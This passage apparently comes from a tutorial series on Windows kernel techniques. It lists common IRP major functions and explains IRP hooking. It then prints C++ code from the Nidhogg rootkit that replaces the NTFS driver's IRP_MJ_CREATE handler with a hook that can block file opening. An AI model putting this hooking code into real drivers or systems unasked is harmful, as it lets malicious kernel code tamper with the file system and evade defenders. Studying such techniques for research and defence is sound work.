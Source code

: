 Several notable IRPs (some of them we used previously in this series) are:

- `IRP_MJ_DEVICE_CONTROL` - Used to handle communication with the driver from either user mode or kernel mode.

- `IRP_MJ_CREATE` - Used to handle `Zw/NtOpenFile` calls to the driver.

- `IRP_MJ_CLOSE` - Used to handle (among other things) handle closing to the driver.

- `IRP_MJ_READ` - Used to handle `Zw/NtReadFile` calls to the driver from either user mode or kernel mode.

- `IRP_MJ_WRITE` - Used to handle `Zw/NtWriteFile` calls to the driver from either user mode or kernel mode.

### Implementing IRP Hooking

IRP hooking is very similar to [IAT hooking](https://www.ired.team/offensive-security/code-injection-process-injection/import-adress-table-iat-hooking) in a way, as both of them are about replacing a function in a table and deciding whether to call the original function or not (usually, the original function will be called).

In IRP hooking the malicious driver replaces an IRP handler of another driver with their handler. A common example is to hook the `IRP_MJ_CREATE` handler of the NTFS driver to prevent file opening.

As an example, I will show the NTFS IRP_MJ_CREATE hook [from Nidhogg](https://github.com/Idov31/Nidhogg/blob/master/Nidhogg/FileUtils.hpp#L37):

```cpp
NTSTATUS InstallNtfsHook(int irpMjFunction) {
    UNICODE_STRING ntfsName;
    PDRIVER_OBJECT ntfsDriverObject;
    NTSTATUS status = STATUS_SUCCESS;

    RtlInitUnicodeString(&ntfsName, L"\\FileSystem\\NTFS");
    status = ObReferenceObjectByName(&ntfsName, OBJ_CASE_INSENSITIVE, NULL, 0, *IoDriverObjectType, KernelMode, NULL, (PVOID*)&ntfsDriverObject);

    if (!NT_SUCCESS(status)) {
        KdPrint((DRIVER_PREFIX "Failed to get ntfs driver object, (0x%08X).\n", status));
        return status;
    }

    switch (irpMjFunction) {
        case IRP_MJ_CREATE: {
            // Saving the original IRP handler into a callback array.
            Callbacks[0].Address = (PVOID)InterlockedExchange64((LONG64*)&ntfsDriverObject->MajorFunction[IRP_MJ_CREATE], (LONG64)HookedNtfsIrpCreate);
            Callbacks[0].Activated = true;
            KdPrint((DRIVER_PREFIX "Switched addresses\n"));
            break;
        }
        default:
            status = STATUS_NOT_SUPPORTED;
    }

    ObDereferenceObject(ntfsDriverObject);
    return status;
}
```
